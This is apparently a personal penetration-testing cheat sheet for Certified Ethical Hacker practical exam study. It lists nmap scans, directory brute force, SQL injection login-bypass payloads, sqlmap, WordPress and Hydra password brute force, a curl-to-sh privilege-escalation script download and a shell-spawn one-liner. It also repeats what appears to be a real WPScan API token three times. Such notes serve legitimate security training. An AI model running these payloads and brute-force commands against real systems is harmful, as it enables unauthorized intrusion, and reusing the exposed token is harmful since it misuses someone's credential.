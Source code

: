 sudo su

vi get-stuff.sh

mkdir CEH
cd CEH
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
sudo curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
sudo chmod +x linpeas.sh
sudo apt install stegseek
sudo apt install gobuster
sudo apt install enum4linux
sudo apt install xsltproc
sudo gem install wpscan




## NMAP
sudo nmap -O -T5 -sV -sC -oA nmap_$ip1_out_all -vv $ip1/24
sudo xsltproc nmap_out_all.xml nmap_$ip1_out_all.html

cd CEH;mkdir $ip;cd $ip;sudo nmap -O -T5 -sV -sC -oA nmap_$ip\_out_all -vv $ip/24;sudo xsltproc nmap_$ip\_out_all.xml -o nmap_$ip\_out_all.html;

### All ports
sudo nmap -O -T5 -sV -sC -p- -oA nmap_$ip\_out_all -vv $ip/24;sudo xsltproc nmap_$ip\_out_all.xml -o nmap_$ip\_out_all.html;



### Quick Host Discovery
sudo nmap -O -T5 -sn $ip/24 
sudo nmap -O -T5 -sn -PR $ip/24                   (-PR ARP requests)

nmap -p 3389 --script rdp-ntlm-info <target>




## GoBuster
sudo gobuster dir  -w /usr/share/wordlists/rockyou.txt -u http://$ip

## SQLi
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—

sqlmap -u “url" --cookie="cookie" --dbs


##Steganography
sudo stegseek -wl /usr/share/wordlists/rockyou.txt -sf filename

snow.exe -C -p “password” stegfile.txt

## Enum4Linux
sudo enum4linux -U -o $ip

## WPScan (https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation)

### Known vulns
wpscan -e vp,u,t --plugins-detection mixed --api-token j6ytwWSsVejE1kASMPSx2TOrLuSzLPiAlc25i6ndJgQ --url <example.com>
### All vulns:
wpscan -e ap,u,t --plugins-detection mixed --api-token j6ytwWSsVejE1kASMPSx2TOrLuSzLPiAlc25i6ndJgQ --url <example.com>
### Password Bruteforce
wpscan -e u --passwords /path/to/password_file.txt  --url <example.com>
##Linpeas Winpeas also exists apparently
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
./linpeas.sh -a > /tmp/linpeas.txt

## Hydra
hydra -l <username> -P given_wordlist ftp://$ip
https://github.com/frizb/Hydra-Cheatsheet






UNIX command exploits: GTFOBins
CEH exercise: https://github.com/3ls3if/Cybersecurity-Notes/blob/main/ethical-hacking-and-pen-testing-notes/ceh-mindmaps/system-hacking/tasks.md


Check all suid bit programs (find / -perm -u=s -type f 2>/dev/null)
python -c import pty;pty.spawn("/bin/bash")

General Check: https://book.thegurusec.com/certifications/certified-ethical-hacker-practical
General Check 2: https://github.com/cmuppin/CEH/tree/main/
General Check 3: https://book.hacktricks.xyz/
General Check 4: https://github.com/infovault-Ytube/CEH-Practical-Notes


Reverse Shells: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
		https://github.com/pentestmonkey/php-reverse-shell


Wpscan API key: j6ytwWSsVejE1kASMPSx2TOrLuSzLPiAlc25i6ndJgQ

Android: https://github.com/cmuppin/CEH/blob/main/Android
	https://attack.mitre.org/matrices/mobile/android/

Check Service vuln: https://www.cvedetails.com/

Metasploit Priv Esc: run post/multi/recon/local_exploit_suggester

CEH Notes: https://github.com/3ls3if/Cybersecurity-Notes/blob/main/ethical-hacking-and-pen-testing-notes/ceh-mindmaps/cloud-computing/tasks.md

OWASP CheatSheet: https://cheatsheetseries.owasp.org/cheatsheets/


TOOLS:
Nmap/zenmap
Metasploit
Searchsploit
Hydra
Aircrack-ng
Veracrypt
Theef RAT
BCTextEncoder
StegHide
Adb
John the ripper
Wireshark
Phonesploit
Sqlmap
ZAP
Open Stego
Detect It Easy (DIE)
Openvas
Smbclient
SSH
Crackstation
Hashes.com
Cyberchef
emn178.github.io/online-tools/crc32_checksum.html
